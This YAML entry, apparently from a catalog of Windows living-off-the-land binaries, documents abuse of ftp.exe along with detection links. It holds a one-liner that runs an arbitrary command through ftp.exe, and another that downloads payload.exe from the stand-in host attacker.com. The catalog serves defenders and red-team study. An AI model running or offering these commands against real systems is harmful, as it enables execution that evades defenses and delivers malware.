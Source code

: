 ```yaml
---
Name: Ftp.exe
Description: A binary designed for connecting to FTP servers
Author: 'Oddvar Moe'
Created: 2018-12-10
Commands:
  - Command: echo !calc.exe > ftpcommands.txt && ftp -s:ftpcommands.txt
    Description: Executes the commands you put inside the text file.
    Usecase: Spawn new process using ftp.exe. Ftp.exe runs cmd /C YourCommand
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: cmd.exe /c "@echo open attacker.com 21>ftp.txt&@echo USER attacker>>ftp.txt&@echo PASS PaSsWoRd>>ftp.txt&@echo binary>>ftp.txt&@echo GET /payload.exe>>ftp.txt&@echo quit>>ftp.txt&@ftp -s:ftp.txt -v"
    Description: Download
    Usecase: Spawn new process using ftp.exe. Ftp.exe downloads the binary.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows XP, Windows Vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\ftp.exe
  - Path: C:\Windows\SysWOW64\ftp.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_ftp.yml
  - IOC: cmd /c as child process of ftp.exe
Resources:
  - Link: https://twitter.com/0xAmit/status/1070063130636640256
  - Link: https://medium.com/@0xamit/lets-talk-about-security-research-discoveries-and-proper-discussion-etiquette-on-twitter-10f9be6d1939
  - Link: https://ss64.com/nt/ftp.html
  - Link: https://www.asafety.fr/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: BennyHusted
    Handle: ''
  - Person: Amit Serper
    Handle: '@0xAmit'
---
```

